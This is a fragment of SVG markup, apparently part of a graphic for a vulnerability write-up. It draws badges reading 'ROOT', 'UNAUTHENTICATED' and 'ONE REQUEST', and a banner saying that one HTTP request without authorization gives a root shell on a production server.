  <rect x="638" y="494" width="165" height="38" rx="4" fill="#161b22" stroke="#ff4444" stroke-width="1" opacity="1.0" />
  <text x="721" y="518" font-family="-apple-system,BlinkMacSystemFont,'Segoe UI',sans-serif" font-size="13" font-weight="bold" fill="#ff4444" text-anchor="middle">ROOT</text>
  <rect x="813" y="494" width="165" height="38" rx="4" fill="#161b22" stroke="#f97316" stroke-width="1" opacity="1.0" />
  <text x="896" y="518" font-family="-apple-system,BlinkMacSystemFont,'Segoe UI',sans-serif" font-size="13" font-weight="bold" fill="#f97316" text-anchor="middle">UNAUTHENTICATED</text>
  <rect x="988" y="494" width="165" height="38" rx="4" fill="#161b22" stroke="#eab308" stroke-width="1" opacity="1.0" />
  <text x="1071" y="518" font-family="-apple-system,BlinkMacSystemFont,'Segoe UI',sans-serif" font-size="13" font-weight="bold" fill="#eab308" text-anchor="middle">ONE REQUEST</text>
  <rect x="24" y="608" width="1152" height="24" rx="4" fill="#150505" stroke="#ff4444" stroke-width="1" opacity="1.0" />
  <text x="600" y="625" font-family="-apple-system,BlinkMacSystemFont,'Segoe UI',sans-serif" font-size="12" font-weight="bold" fill="#ff4444" text-anchor="middle">No Authorization header. No API key. One HTTP request = unauthenticated root shell on a production server.</text>
</svg>
